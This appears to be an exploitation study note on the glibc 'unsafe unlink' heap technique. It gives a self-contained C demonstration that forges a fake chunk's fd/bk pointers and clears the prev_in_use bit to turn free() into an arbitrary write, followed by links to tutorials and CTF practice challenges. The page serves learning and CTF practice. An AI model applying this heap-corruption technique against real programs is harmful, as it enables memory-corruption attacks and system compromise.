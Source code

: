 ```yaml
---
description: >-
  exploit free on corrupted chunk to get arbitrary write. you need the address
  of a pointer to a heap object
---
```


# unsafe-unlink exploit

exploit works on most recent version of libc. on older versions of libc (before tcache) it's even more powerful.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

typedef struct chunk {
  int64_t       prev_size;
  int64_t       size;
  struct chunk* fd;
  struct chunk* bk;
} chunk;

uint64_t* c0_ptr;

int main() {
  uint64_t* c1_ptr;

  // don't use tcache or fastbin
  c0_ptr = malloc(0x420);
  c1_ptr = malloc(0x420);
  chunk *c0 = (uint64_t*) c0_ptr - 2;
  chunk *c1 = (uint64_t*) c1_ptr - 2;
  // create fake chunk inside c0
  chunk *fake_chunk = (chunk*) c0_ptr;
  fake_chunk->size = c0->size - 0x10; // -0x10 for prev_size and size (fake chunk starts at c0[2])

  // make sure fakechunk->bk->fd == fake_chunk
  chunk *fd_eq_fake = (uint64_t*)&c0_ptr - 2;
  assert(fd_eq_fake->fd == fake_chunk);
  fake_chunk->bk = fd_eq_fake;
  assert(fake_chunk->bk->fd == fake_chunk);

  // make sure fakechunk->fd->bk == fake_chunk
  chunk *bk_eq_fake = (uint64_t*)&c0_ptr - 3;
  assert(bk_eq_fake->bk == fake_chunk);
  fake_chunk->fd = bk_eq_fake;
  assert(fake_chunk->fd->bk == fake_chunk);

  // update following chunk metadata
  c1->prev_size = 0x420;
  c1->size &= ~1; // unset prev_in_use bit

  free(c1_ptr);

  char sens[8] = "Hello!~";

  c0_ptr[3] = sens;

  c0_ptr[0] = 0x0042414141414141L;

  printf("%s\n", sens);
}
```

## Learning resources

[heap-exploitation](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)

[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc\_2.35/unsafe\_unlink.c)

[nightmare](https://guyinatuxedo.github.io/30-unlink/unlink\_explanation/index.html)

## Practice

[0ctf Quals 2017 - BabyHeap2017](https://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html)

[hitcon14\_stkof](https://github.com/hoppersroppers/nightmare/tree/master/modules/7-Heap/30-unlink/hitcon14\_stkof)

[zctf16\_note2](https://github.com/hoppersroppers/nightmare/tree/master/modules/7-Heap/30-unlink/zctf16\_note2)
